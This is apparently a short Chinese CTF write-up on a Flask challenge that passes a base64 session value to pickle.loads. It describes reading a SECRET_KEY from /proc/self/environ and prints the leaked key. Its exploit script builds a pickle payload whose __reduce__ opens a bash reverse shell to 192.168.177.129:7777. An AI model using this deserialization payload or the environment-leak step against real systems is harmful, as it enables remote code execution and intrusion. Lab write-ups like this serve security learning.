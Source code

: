 ```python

​    if isinstance(u, dict):

​      u = b64decode(u.get('b'))

​    \#将u反序列化为对象

​    u = pickle.loads(u)

  except Exception:

​    return 'uhh?'

  \#如果为管理员则返回welcome，admin，否则返回who are you

  if u.is_admin == 1:

​    return 'welcome, admin'

  else:

​    return 'who are you?'

\#监听所有网络接口的80端口

if __name__ == '__main__':

  app.run('0.0.0.0', port=80, debug=False)
```

审计代码，发现存在一个SECRET_KEY用于session加密。打开/proc/self/environ即可查看当前进程环境变量，可获得secret_key=glzjin22948575858jfjfjufirijidjitg3uiiuuh

如下是f12查到的session的b64解码，由此可以用secret_key伪造session{'u':{'b':'payload'}}

![image-20250308193353350](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250308193353350.png)

```python
exp：

import os

import pickle

from base64 import b64encode

User = type('User', (object,), {

  'uname': 'test',

  'is_admin': 1,

  '__repr__': lambda o: o.uname,

  '__reduce__': lambda o: (os.system,("bash -c 'bash -i >& /dev/tcp/192.168.177.129/7777 0>&1",))

})

u = pickle.dumps(User())

print(b64encode(u).decode())
```
